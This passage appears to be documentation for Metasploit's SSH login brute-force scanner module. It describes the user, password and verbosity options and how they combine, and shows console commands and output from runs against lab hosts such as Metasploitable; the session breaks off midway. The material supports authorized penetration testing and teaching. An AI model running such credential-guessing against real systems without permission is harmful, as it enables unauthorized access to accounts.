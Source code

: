   ```[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '```
  
  A file containing a username on every line.

  **VERBOSE**
  
  Show a failed login attempt.  This can get rather verbose when large `USER_FILE`s or `PASS_FILE`s are used.  A failed attempt will look similar to the following:

  ```
  [-] SSH - Failed: 'msfadmin:virtual'
  ```

## Option Combinations

It is important to note that usernames and passwords can be entered in multiple combinations.  For instance, a password could be set in `PASSWORD`, be part of either `PASS_FILE` or `USERPASS_FILE`, be guessed via `USER_AS_PASS` or `BLANK_PASSWORDS`.
This module makes a combination of all of the above when attempting logins.  So if a password is set in `PASSWORD`, and a `PASS_FILE` is listed, passwords will be generated from BOTH of these.

## Scenarios

  Example run against:
  * Ubuntu 14.04 Server with root login permitted: 192.168.2.156
  * Ubuntu 16.04 Server: 192.168.2.137
  * Metasploitable: 192.168.2.46
  * Metasploitable 2: 192.168.2.35

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > cat /root/ssh_passwords.lst
[*] exec: cat /root/ssh_passwords.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set pass_file /root/ssh_passwords.lst
pass_file => /root/ssh_passwords.lst
msf auxiliary(ssh_login) > cat /root/ssh_un.lst
[*] exec: cat /root/ssh_un.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set user_file /root/ssh_un.lst
user_file => /root/ssh_un.lst
msf auxiliary(ssh_login) > cat /root/ssh_hosts.lst
[*] exec: cat /root/ssh_hosts.lst
